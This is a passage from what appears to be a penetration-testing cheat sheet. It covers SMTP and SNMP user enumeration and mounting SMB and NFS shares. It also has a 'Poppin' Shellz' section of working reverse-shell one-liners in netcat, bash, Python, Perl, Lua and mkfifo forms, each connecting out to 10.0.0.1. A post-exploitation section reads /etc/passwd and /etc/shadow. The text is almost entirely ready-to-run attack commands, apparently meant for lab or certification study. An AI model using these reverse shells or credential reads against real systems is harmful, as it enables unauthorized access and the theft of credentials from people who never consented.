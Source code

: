 - `snmp-check <targetIP>`

### SMTP
**TCP 25, 110/995, 143/993**
- `smtp-user-enum -M VRFY -U /root/userlist -t <targetIP>`

- `smtp-user-enum -M RCPT -U /root/userlist -t <targetIP>`

- `for user in $(cat /root/userlist); do echo VRFY $user | nc -nv -w 1 <targetIP> 25 2>/dev/null | grep ^”250″;done`

- `ismtp -h <targetIP>:25 -e /root/userlist`

### Mounting Shares

**SMB anon/guest**

`mount -t cifs "//<targetIP>/sharename/" /mnt/cifs -o username=<username>`

**SMB Authenticated**

`mount -t cifs -o user=USERNAME,sec=ntlm,dir_mode=0077 "//<targetIP>/sharename/" /mnt/cifs`

**SMB**

`smbclient -L <targetIP>`

**NFS**

`mount -t nfs <targetIP>:/share /mnt/nfs/`


### Poppin' Shellz:

**Netcat / nc:** `nc -e /bin/sh 10.0.0.1 1234`

**Bash over TCP:** `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

**Python:** `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

**Perl:** `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

**Lua:** `lua -e 'os.execute("nc -e /bin/sh 10.0.0.1 1234")'`

**BSD/NetBSD:** `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`


### Post-Ex:

#### Proof (Linux)

`hostname; cat /etc/issue; uname -a; id; ifconfig; cat /root/proof.txt; cat /etc/{passwd,shadow}`

#### Proof (Windows)

`whoami; type "C:\Users\Administrator.HOSTNAME\Desktop\proof.txt"; ipconfig; systeminfo`

